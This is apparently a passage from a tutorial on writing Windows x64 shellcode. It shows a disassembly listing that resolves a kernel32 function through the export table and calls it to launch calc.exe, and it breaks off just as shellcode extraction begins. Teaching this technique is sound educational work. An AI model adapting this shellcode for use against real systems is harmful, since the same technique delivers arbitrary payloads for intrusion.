 ```nasm
  53:   48 83 c4 08             add    $0x8,%rsp
  57:   eb 00                   jmp    59 <kernel32findfunction>

0000000000000059 <kernel32findfunction>:
  59:   67 e3 19                jecxz  75 <FunctionNameNotFound>
  5c:   31 db                   xor    %ebx,%ebx
  5e:   41 8b 1c 8b             mov    (%r11,%rcx,4),%ebx
  62:   4c 01 c3                add    %r8,%rbx
  65:   48 ff c9                dec    %rcx
  68:   4c 8b 08                mov    (%rax),%r9
  6b:   4c 39 0b                cmp    %r9,(%rbx)
  6e:   74 02                   je     72 <FunctionNameFound>
  70:   75 e7                   jne    59 <kernel32findfunction>

0000000000000072 <FunctionNameFound>:
  72:   51                      push   %rcx
  73:   eb 01                   jmp    76 <OrdinalLookupSetup>

0000000000000075 <FunctionNameNotFound>:
  75:   cc                      int3

0000000000000076 <OrdinalLookupSetup>:
  76:   41 5f                   pop    %r15
  78:   78 00                   js     7a <OrdinalLookup>

000000000000007a <OrdinalLookup>:
  7a:   4c 89 f9                mov    %r15,%rcx
  7d:   4d 31 db                xor    %r11,%r11
  80:   44 8b 5a 24             mov    0x24(%rdx),%r11d
  84:   4d 01 c3                add    %r8,%r11
  87:   48 ff c1                inc    %rcx
  8a:   66 45 8b 2c 4b          mov    (%r11,%rcx,2),%r13w
  8f:   4d 31 db                xor    %r11,%r11
  92:   44 8b 5a 1c             mov    0x1c(%rdx),%r11d
  96:   4d 01 c3                add    %r8,%r11
  99:   43 8b 04 ab             mov    (%r11,%r13,4),%eax
  9d:   4c 01 c0                add    %r8,%rax
  a0:   50                      push   %rax
  a1:   78 00                   js     a3 <executeit>

00000000000000a3 <executeit>:
  a3:   41 5f                   pop    %r15
  a5:   b8 00 00 00 00          mov    $0x0,%eax
  aa:   50                      push   %rax
  ab:   48 b8 63 61 6c 63 2e    movabs $0x6578652e636c6163,%rax
  b2:   65 78 65
  b5:   50                      push   %rax
  b6:   48 89 e1                mov    %rsp,%rcx
  b9:   ba 01 00 00 00          mov    $0x1,%edx
  be:   48 83 ec 30             sub    $0x30,%rsp
  c2:   41 ff d7                call   *%r15
```
Now let's extract the shellcode:
